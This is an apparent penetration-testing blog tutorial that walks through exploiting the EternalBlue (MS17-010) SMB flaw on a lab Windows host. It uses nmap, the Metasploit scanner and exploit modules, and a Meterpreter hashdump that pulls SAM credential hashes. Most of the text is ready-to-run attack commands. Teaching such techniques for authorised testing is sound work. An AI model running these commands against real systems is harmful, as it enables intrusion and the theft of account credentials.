








:orphan:
(exploiting-eternalblue-with-metasploit)=

# Exploiting EternalBlue With Metasploit

In this blog article, we will exploit and utilize a vulnerable Windows machine and perform some actions such as identifying a vulnerable SMB service port and dumping SAM file credentials using Metasploit. Before beginning our Nmap scan let's define what is a SAM file on Windows OS.

## What is the Windows SAM file?

The credentials of users are not stored in plain text files by the Microsoft Windows operating system. Rather, it parses the passwords using the NTLM hashing technique, which turns the passwords into cryptographic hash digests. For each local user account, this NTLM hash of the credential is kept in the SAM file.

The SAM file within the Windows operating systems can be found in the `C:\ WINDOWS\system32\config` directory.

## Enumerating default SMB ports

To begin, let’s start by determining whether a target machine is using SMB.

Launch your Kali and run the following command to see if service ports 136, 137, 138, 139, and 445 are up.

`nmap -p 136-139,445 10.10.204.25`

You can see the open service ports on our victim machine in the following image.

## Identifying EternalBlue vulnerability

Next we will see if the victim is susceptible to EternalBlue.

Let’s start Metasploit by typing the following command:

`msfconsole`

Run the following command to display the related Metasploit modules on the console.

`search eternal`

Now let us utilize the auxiliary scanner module to see if the victim machine is susceptible to EternalBlue vulnerability.

`use auxiliary/scanner/smb/smb_ms17_010`

`set RHOSTS 10.10.204.25`

`run`

As you can see in the image, Metasploit has responded positively. This output notes that the target machine would be most likely susceptible to the MS17-010 vulnerability.

## Exploiting EternalBlue vulnerability

Now we can run the command to select the related exploit module:

`use exploit/windows/smb/ms17_010_eternalblue`

Next, run these commands respectively and start the attack:

`set RHOSTS 10.10.204.25`

`set LHOST <your attack machine IP>`

`exploit`

To extract the details of the Security Account Manager (SAM) file, run the `hashdump` command in your Meterpreter session.

`hashdump`

The above screenshot shows the output after executing the `hashdump` command on Meterpreter.

## Conclusion

While Eternalblue vulnerability may appear obsolete in the modern world, there are numerous unpatched and insecure Windows operating systems in various endpoints or companies throughout the world. Upon completion of this blog post, you have now learned how to exploit a specific Windows OS that is susceptible to the ExternalBlue vulnerability and how to access the details of SAM files.

> **Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)**
